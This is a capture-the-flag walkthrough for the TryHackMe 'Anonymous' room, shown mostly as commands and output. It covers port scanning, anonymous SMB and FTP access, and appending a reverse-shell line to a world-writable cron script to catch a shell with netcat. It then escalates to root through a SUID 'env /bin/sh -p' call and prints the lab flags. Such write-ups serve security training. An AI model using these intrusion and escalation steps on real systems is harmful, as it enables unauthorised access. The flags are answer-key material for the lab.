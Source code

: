 https://tryhackme.com/room/anonymous

#1 	Enumerate the machine.  How many ports are open?

scan using nmap automator


```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 20:48 EDT
Nmap scan report for 10.10.175.242
Host is up (0.41s latency).
Not shown: 880 closed ports, 116 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds
```

answer: 4

#2 	What service is running on port 21?

answer: ftp

#3 	What service is running on ports 139 and 445?

answer: smb

#4 	There's a share on the user's computer.  What's it called?

```
kali@kali:~$ smbclient -L 10.10.175.242
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

answer: pics

#5 	user.txt

connect to smb service and download files

```
kali@kali:~/Downloads$ smbclient //10.10.175.242/pics
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
smb: \> get corgo2.jpg
getting file \corgo2.jpg of size 42663 as corgo2.jpg (19.0 KiloBytes/sec) (average 19.0 KiloBytes/sec)
smb: \> get puppos.jpeg
getting file \puppos.jpeg of size 265188 as puppos.jpeg (60.6 KiloBytes/sec) (average 46.5 KiloBytes/sec)

```
we get two pictures of dogs

connect to ftp
we find the script clean.sh and removed_files.log
looking inside removed_files.log it looks like clean.sh is a cron job that is executing periodically
we can use the append command in ftp to append a reverse shell line into the bash script 

```
kali@kali:~/Downloads$ ftp 10.10.73.1
Connected to 10.10.73.1.
220 NamelessOne's FTP Server!
Name (10.10.73.1:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1247 Sep 06 02:56 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```

```
226 Directory send OK.
ftp> append
(local-file) clean.sh
(remote-file) clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
40 bytes sent in 0.00 secs (765.9314 kB/s)
ftp> get clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for clean.sh (354 bytes).
226 Transfer complete.
354 bytes received in 0.00 secs (1.1722 MB/s)
```

setup a listener on our machine and we get a connection

```
kali@kali:~$ netcat -lvnp 1234
listening on [any] 1234 ...
connect to [10.4.9.144] from (UNKNOWN) [10.10.73.1] 54800
bash: cannot set terminal process group (1242): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ whoami
whoami
namelessone
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```

#6 	root.txt

run linpeas.sh

used SUID bit set on env to get root

```
kali@kali:~$ netcat -lvnp 1234
listening on [any] 1234 ...
connect to [10.4.9.144] from (UNKNOWN) [10.10.13.112] 56988
bash: cannot set terminal process group (1670): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ env /bin/sh -p
env /bin/sh -p
whoami
root
cd /root
ls
root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```
